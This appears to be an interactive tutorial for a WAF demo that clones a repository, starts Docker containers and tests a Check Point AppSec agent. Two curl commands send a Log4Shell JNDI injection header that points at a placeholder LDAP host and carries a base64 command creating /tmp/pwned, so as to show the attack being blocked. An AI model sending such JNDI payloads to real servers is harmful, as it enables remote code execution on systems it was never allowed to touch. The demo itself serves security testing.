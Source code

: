 
## Bootstrap your instant AppSec demo

Get the project

`git clone https://github.com/mkol5222/appsec-demo.git`{{execute}}

Set AppSec again TOKEN

`export TOKEN=bring-your-own-token`{{execute}}

Bootstrap it.

`cd appsec-demo; docker-compose up -d`{{execute}}

Check CP nano-agent status and policy

`docker-compose exec agent-container cpnano --status`{{execute}}

Try to reach app with attempt to inject using Log4Shell vulnerability...

`curl --resolve log4shell.local:80:127.0.0.1 log4shell.local -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`{{execute}}

Focus on block message with incident ID

`curl --resolve log4shell.local:80:127.0.0.1 log4shell.local -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/CoG91Y2ggL3RtcC9wd25lZAo=}' | grep -Po 'Application Security.*'`{{execute}}

Check vulnerable app logs

`docker-compose logs log4shell`{{execute}}